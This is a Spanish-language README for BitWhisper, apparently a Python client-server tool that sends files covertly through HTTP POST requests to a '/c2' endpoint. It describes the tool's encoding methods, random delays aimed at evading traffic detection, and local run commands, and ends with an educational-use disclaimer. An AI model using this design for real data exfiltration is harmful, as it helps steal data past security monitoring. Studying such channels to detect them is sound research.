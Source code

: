 # 🕵️‍♂️ BitWhisper V2.0

**BitWhisper** es un proyecto que demuestra el uso de un canal encubierto a través de peticiones HTTP POST con tamaños de payload variables para transmitir datos de forma sigilosa entre un cliente y un servidor.

Las técnicas de canal encubierto se utilizan comúnmente en el ámbito de la ciberseguridad ofensiva para evadir medidas de control de análisis de tráfico.

## 🔐 ¿Para qué sirve?

Este proyecto puede utilizarse para:

- Demostrar técnicas de evasión y canales encubiertos.
- Investigar mecanismos de detección de tráfico anómalo.
- Aprender sobre codificación binaria y manipulación de tráfico HTTP.

## 🧠 ¿Qué es BitWhisper?

BitWhisper es una herramienta experimental para la transmisión encubierta de archivos a través de peticiones HTTP POST fragmentadas y codificadas. Permite transformar el contenido de un archivo en distintos formatos y enviarlo a un servidor que reconstruye los datos y los almacena localmente.

## 🧩 Características

- Transmisión de archivos.
- Múltiples métodos de codificación para ofuscación de datos:
  - `ByteToBits`
  - `ByteToBase64`
  - `ByteToBitToPayloadSize`
  - `ByteToXor`
- Fragmentación configurable.
- Cálculo de entropía antes y después de codificar.
- Envío con retardo aleatorio opcional para evasión de detección.
- Control de tasa de transferencia y métricas.
- Verificación de integridad mediante hash SHA-256.

## 📁 Estructura

```bash
.
├── cliente.py       # Cliente transmisor del archivo
├── servidor.py      # Servidor receptor y decodificador
├── output/          # Carpeta donde se almacenan los archivos reconstruidos
└── README.md        # Este archivo
```

## 🛠 Requisitos

    Python 3.6+
    Paquetes:
        requests
        flask
        

## 🚀 Cómo ejecutar

### 1. Inicia el servidor receptor

```bash
python3 servidor.py
```

Esto abrirá un servidor Flask en el puerto 5000 esperando peticiones HTTP POST en el endpoint /c2.

### 2. Ejecuta el cliente encargado de transmitir el fichero

```bash
python3 cliente.py \
  --pathFile archivo_a_enviar.txt \
  --url http://127.0.0.1:5000/c2 \
  --blockSize 15000 \
  --encodingMethod ByteToBits
```

### Parámetros

| Parámetro         | Descripción                                                              |
|------------------|---------------------------------------------------------------------------|
| `--pathFile`      | Ruta al archivo a enviar.                                                 |
| `--url`           | URL del servidor receptor.                                                |
| `--blockSize`     | Tamaño de cada bloque de datos a enviar.                                 |
| `--encodingMethod`| Método de codificación.                                                  |
| `--key`           | Clave para el método `ByteToXor`. Opcional pero obligatorio en ese caso. |
| `--delay`         | Si se incluye, introduce retardo aleatorio entre paquetes.               |

## 🧠 Métodos de Codificación

| Método                 | Descripción                                              |
|------------------------|----------------------------------------------------------|
| `ByteToBits`           | Cada byte es convertido a una cadena de 8 bits.         |
| `ByteToBase64`         | Cada byte es codificado a Base64.                        |
| `ByteToBitToPayloadSize` | Representación de bits usando el tamaño del contenido (`'a' * 1` o `2`). |
| `ByteToXor`            | Codificación XOR con una clave proporcionada.            |

El servidor decodifica automáticamente el método inverso de forma dinámica.

## 🔐 Integridad

Se utiliza un hash SHA-256 del contenido original para asegurar que los datos no fueron alterados durante la transmisión.

## 📊 Métricas mostradas

    Entropía antes y después de codificar
    Aumento del tamaño del archivo tras codificación
    Número de paquetes enviados y por enviar
    Tasa de transferencia
    Tiempo estimado restante

## ⚠️ Advertencia

**Este proyecto es solo para fines educativos y de investigación.**

Está diseñado para ayudar a comprender cómo funcionan los canales encubiertos y las técnicas de transmisión de mensajes encubiertos a través de protocolo de comunicación de capa 7. No debe utilizarse para actividades ilegales, maliciosas o no autorizadas.

El uso indebido de este código para exfiltración de datos o evasión de sistemas de seguridad puede quebrantar las regulaciones locales, nacionales o internacionales, así como las políticas corporativas.

Al usar este proyecto, asumes toda la responsabilidad y te comprometes a respetar la ética y las normativas vigentes.

---
